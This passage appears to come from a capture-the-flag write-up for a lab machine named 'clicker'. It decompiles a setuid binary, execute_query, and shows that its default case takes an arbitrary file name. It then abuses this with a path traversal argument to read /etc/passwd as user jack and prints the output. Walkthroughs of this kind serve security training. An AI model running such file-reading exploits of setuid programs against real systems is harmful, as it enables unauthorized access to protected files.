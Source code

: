 But, we already had the database credentials from the source code. Those `*.sql` files are probably the SQL commands to do the tasks defined in `README.txt`.

A close look at the binary reveals it is `setuid`:

```console
www-data@clicker:/opt/manage$ ls -la execute_query
-rwsrwsr-x 1 jack jack 16368 Feb 26  2023 execute_query
```

I decompiled the binary in Ghidra. Here's the `case` statement from the `main` function that processes the command-line arguments:

```c
...
if (param_1 < 2) {
    puts("ERROR: not enough arguments");
    uVar2 = 1;
  }
  else {
    iVar1 = atoi(*(char **)(param_2 + 8));
    pcVar3 = (char *)calloc(0x14,1);
    switch(iVar1) {
    case 0:
      puts("ERROR: Invalid arguments");
      uVar2 = 2;
      goto LAB_001015e1;
    case 1:
      strncpy(pcVar3,"create.sql",0x14);
      break;
    case 2:
      strncpy(pcVar3,"populate.sql",0x14);
      break;
    case 3:
      strncpy(pcVar3,"reset_password.sql",0x14);
      break;
    case 4:
      strncpy(pcVar3,"clean.sql",0x14);
      break;
    default:
      strncpy(pcVar3,*(char **)(param_2 + 0x10),0x14);
    }
...
```

So, anything besides options 1-5 will trigger the `default` case, which takes an arbitrary argument. The program displays the contents of the SQL files when running them, so I should be able to use that to read files as `jack`:

```console
www-data@clicker:/opt/manage$ ./execute_query 5 '../../../etc/passwd'
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
...
```
